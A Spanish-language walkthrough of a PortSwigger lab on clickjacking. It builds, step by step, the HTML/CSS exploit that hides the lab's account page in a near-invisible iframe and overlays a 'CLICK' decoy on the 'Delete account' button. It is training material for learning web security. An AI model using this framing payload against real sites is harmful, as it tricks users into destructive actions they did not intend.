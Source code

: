 # Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/4ffa4b57-b5df-4487-b5ff-9dda4fa0cea9)

Nosotros sabemos que este laboratorio tiene una funcionalidad de autenticación y que tiene un botón `Delete account` el cual debemos utilizar para que el usuario víctima elimine su cuenta mediante `Clickjacking`.

Nos autenticamos con nuestras credenciales `wiener:peter` y en el dashboard del usuario nos encontramos con el botón `Delete account`:
![image](https://github.com/user-attachments/assets/509e80c1-90ae-4260-b2a0-ecfa62034389)

Entonces la idea es engañar a un usuario para que haga clic en un elemento visible que muestra la palabra `click`, mientras un botón real (`Delete account`) del sitio objetivo se encuentra oculto detrás, embebido en un iframe casi transparente y alineado perfectamente con ese texto.

Accedemos al exploit server del laboratorio, que simula un sitio web alojado por nosotros:
![image](https://github.com/user-attachments/assets/514dc04f-5e9d-4952-91dd-0f2c40cc10fd)

Si hacemos click en `View exploit` seremos capaces de ver el contenido de nuestro sitio web:
![image](https://github.com/user-attachments/assets/2de4b3bc-2917-4c59-821f-231b080acf8f)

Vamos a utilizar un `iframe`, que es un elemento HTML que permite cargar otra página web dentro del documento actual. Ya lo vimos en laboratorios anteriores: el `iframe` incrusta contenido remoto, como si fuera una ventana dentro del sitio atacante.

Vamos a ir haciendo pruebas para analizar cómo va cambiando el código y el resultado que arroja. 

Comenzamos insertando el siguiente código en nuestra página:
```html
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
Esto genera un cuadro embebido que carga la página especificada en el atributo `src`. Podemos ver visualmente que el contenido del `iframe` corresponde al dashboard del usuario:
![image](https://github.com/user-attachments/assets/c9df01fc-50a8-44f4-8875-eb0d31100bde)

Ahora procedemos a darle estilo al `iframe`:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
</style>

<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>

```

Vemos que se agrandó el `iframe`, incluso si acercamos el mouse sobre un elemento vemos que cambia el ícono, lo que nos da la pauta de que tenemos interacción con los elementos, es decir, los botones siguen funcionando por más que sean casi transparentes.

Ahora vamos a agregar un botón:

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 100px;
    left: 100px;
    z-index: 1;
  }
</style>

<div>click</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```

Nosotros podemos ver el elemento `click`:
![image](https://github.com/user-attachments/assets/e742c0d5-1107-4742-b25d-7f712b948ce4)

La idea ahora es ir probando hasta encontrar la configuración de modo tal que el elemento `click` quede superpuesto al botón `Delete account`. Luego de varias pruebas encontramos que la configuración correcta es la siguiente:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```

![image](https://github.com/user-attachments/assets/97c77e35-9026-4ac1-a168-f7ea83709db6)

Ahora procedemos a bajar la transparencia de modo que el `iframe` quede casi imperceptible:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```
De modo tal que si la víctima visita esta página, verá lo siguiente:
![image](https://github.com/user-attachments/assets/edca2881-3f92-40ca-9583-0aceacf2d34b)

Como el valor de `z-index` del elemento `click` es menor al del elemento `iframe`, cuando el usuario haga click en `CLICK`, en realidad va a estar haciendo click sobre el botón `Delete account` del `iframe`.

En el exploit server hacemos click en `Store` y luego en `Deliver exploit to victim` para resolver el laboratorio:


